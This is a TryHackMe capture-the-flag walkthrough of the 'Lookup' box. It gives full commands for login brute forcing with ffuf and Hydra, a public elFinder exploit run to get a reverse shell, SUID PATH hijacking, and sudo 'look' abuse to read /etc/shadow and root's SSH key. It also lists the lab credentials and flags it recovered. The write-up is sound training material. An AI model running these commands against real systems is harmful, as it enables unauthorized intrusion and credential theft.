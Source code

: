 # Lookup

# Lookup - TryHackMe Walkthrough

## 🧩 Overview

- **Platform:** TryHackMe
- **Box Name:** Lookup
- **Difficulty:** Easy
- **Date Completed:** 16/07/2025
- **Summary:** Web login brute-force > PHP RCE via vulnerable elFinder > Privilege escalation to user through SUID PATH hijack > Root via sudo abuse of `look` to access SSH private key.

---

## 1. 🔍 Enumeration

### Port Scanning

```bash
nmap -p- --open -sS -n -T4 -vvv 10.10.102.13 -oN full_tcp_scan.txt
```

- Port 22: SSH
- Port 80: HTTP

Follow-up service scan:

```bash
nmap -p 22,80 -sC -sV -n -T4 -vvv 10.10.102.13 -oN targeted_scan.txt
```

- Port 22: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.9)
- Port 80: Apache/2.4.41 (Ubuntu)

---

### Web Enumeration

The IP resolves as `lookup.thm`, which I added to `/etc/hosts`. Visiting the site shows a login form at `/index.php`.

I used `gobuster` to look for additional content:

```bash
gobuster dir -u http://10.10.102.13 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 -o gobuster_results.txt -k -r
```

Only `/index.php` appeared relevant.

---

### Login Portal Analysis

Using Burp Suite, I tested login responses. Submitting a known username (`admin`) and a dummy password gives:

```
Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

Trying a non-existent username shows:

```
Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
```

This difference in responses can be used to fuzz for valid usernames.

---

### Username Fuzzing (ffuf)

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -X POST \
     -u http://lookup.thm/login.php \
     -d 'username=FUZZ&password=REDACTED' \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -fr "Wrong username or password"
```

🧠 **Learning:** Spent a long time trying to fuzz usernames with Hydra to no avail. Switched to `ffuf` and got results instantly.

- Valid username found: `jose`

---

### Password Bruteforce (Hydra)

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -f -V

```

- Credentials found: `jose:password123`

---

## 2. 💥 Initial Foothold

After logging in, the portal revealed a file manager interface powered by **elFinder v2.1.47**, which is vulnerable to command injection (CVE-2019-9194).

Exploitation was done using this PoC:

https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce

```bash
python3 elfinder.py -t http://files.lookup.thm/elFinder/ -lh 10.9.0.89 -lp 4305
```

This gave a reverse shell as `www-data`.

---

## 3. 🚀 Privilege Escalation

### User Privilege Escalation – think

In `/home/think/`, `user.txt` was present but unreadable by `www-data`. Searching for SUID binaries revealed `/usr/sbin/pwm`.

```bash
strings pwm
```

The binary:

- Executes the `id` command.
- Parses the username from the output.
- Constructs a path: `/home/<username>/.passwords`
- Attempts to read that file.

Since `id` isn’t invoked with an absolute path, I performed PATH hijacking:

```bash
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```

Running `pwm` now reads the file `/home/think/.passwords`, which contained a long list of possible passwords.

Bruteforcing with Hydra:

```bash
hydra -l think -P lookup.txt ssh://10.10.102.13
```

- Valid credentials found: `think:josemario.AKA(think)`
- User flag located at `/home/think/user.txt`

---

### Root Privileges – Sudo Abuse with `look`

Checking `sudo -l` revealed:

```bash
User think may run the following commands:
    (ALL) /usr/bin/look
```

According to GTFOBins, `look` can read files when passed an empty search string:

```bash
sudo look "" /etc/shadow
```

This revealed password hashes. While running a cracker, I also checked `/root/.ssh/id_rsa`:

```bash
sudo look "" /root/.ssh/id_rsa
```

Found a full private SSH key. Saved it, set correct permissions, and logged in as root:

```bash
ssh -i lookup_id root@10.10.87.108
```

Root flag retrieved from `/root/root.txt`.

---

## 📝 Key Learnings

- `ffuf` is significantly more effective for username fuzzing than Hydra in certain cases.
- PATH hijacking with custom scripts is a common vector in CTF-style privilege escalation.
- It’s worth checking SUID binaries with `strings` to infer logic and potential abuse paths.
- CVE research and GitHub PoCs can provide quick paths to initial access.
- GTFOBins is a powerful resource when enumerating sudo permissions.

---

## 📂 Flags & Loot

- **User Flag:** `38375fb4dd8baa2b2039ac03d92b820e`
- **Root Flag:** `5a285a9f257e45c68bb6c9f9f57d18e8`

**Credentials:**

- Web login: `jose:password123`
- SSH user: `think:josemario.AKA(think)`
- SSH root: Private key recovered from `/root/.ssh/id_rsa`

---

## 🛠️ Tools Used

- `nmap`
- `gobuster`
- `ffuf`
- `hydra`
- `netcat`
- `Burp Suite`
- `python3`
- `GTFOBins`
- `strings`, `chmod`, `export`, `sudo`

---

## ✅ Box Completed: Lookup

🎯 **Goal:** Demonstrated enumeration, exploitation, and both user and root privilege escalation paths using common tools and manual analysis.

📘 **Portfolio Note:** This was a great learning opportunity for chaining multiple low-privilege issues into a full box compromise and reinforces the importance of detail during enumeration.
